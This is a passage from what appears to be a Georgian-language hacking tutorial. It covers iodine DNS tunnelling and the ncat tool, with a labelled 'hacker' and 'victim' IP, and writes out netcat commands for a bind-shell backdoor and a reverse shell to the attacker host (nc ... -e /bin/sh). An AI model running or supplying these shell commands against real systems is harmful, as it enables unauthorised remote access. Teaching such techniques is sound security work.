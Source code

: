 კლიენტ სისტემაში გაუშვებ:

```
> iodine -f -P password tunnel.example.com
```

სერვერიდან კლიენტი მიიღებს IP მისამართს

# ncat

ncat არის ზოგადი დანიშნულების ქსელური პოგრამა რომლის საშუალებით შესაძლოა მონაცემების გაგზავნა, მიღება და შიფრაცია. ეს არის netcat-ის გაუმჯობესებული ვერსია, მის შესაძლებლობებში შედის:
  * იყოს TCP/UDP/SCTP/SSL მარტივი კლიენტი ვებ სერვერებთან და სხვა TCP/IP ქსელურ სერვისებთან კავშირისთვის
  * TCP/UDP/SCTP/SSL მარტივი სერვერი
  * TCP/UDP/SCTP პროქსი, ტრეფიკის გაგზავნით სხვა ჰოსტთან გარკვეულ პორტზე
  * სისტემის ბრძანებების გასაშვებად ქსელური შუამავალი
  * მონაცემების შიფრაციაკავშირის დროს SSL-ის მეშვეობით
  * ქსელური კავშირის დამყარება IPv4 ან IPv6 პროტოკოლით
  * იოს კავშირის შუამავალი, რაც საშუალებას აძლევს ბევრ სხვა კლიენტს რომ ერთმანეთს დაუკავშირდნენ ამ შუამავლით

  * ჰაკერის IP მისამართია 168.0.0.2
  * მსხვერპლის IP მისამართია 168.0.0.10

მსხვერპლის სისტემაში გაუშვი ncat რომ კავშირს ელოდოს (-l, listen), 1337 პორტზე (-p, port) და გაუშვას შელი (-e, execute):

```
> nc -l -p 1337 -e /bin/sh
```

ჰაკერის სისტემიდან ვუკაშირდებით მსხვერპპლის სისტემას რომ მიწვდომა გვქონდეს ბექდორთან:

```
> nc 168.0.0.10 1337
```

## უკუღმა შელი

უკუშელი (reverse shell) გაძლევს საშუალებას რომ მსვერპლის სისტემა დაუკავშირდეს ჰაკერის სისტემას.

ჰაკერის სისტემაში ვუშვებთ ncat-ს რომ კავშირს ელოდოს 1337 პორტზე:

```
> nc -l 1337
```

მსვერპლის სისტემაში:

```
> nc 168.0.0.2 1337 –e /bin/sh
```

ჰაკერის სისტემაში ვუშვებთ ncat-ს და შემდგომ სასურველ ბრანებებს:

```
> nc -l -p 1337
whoami
```

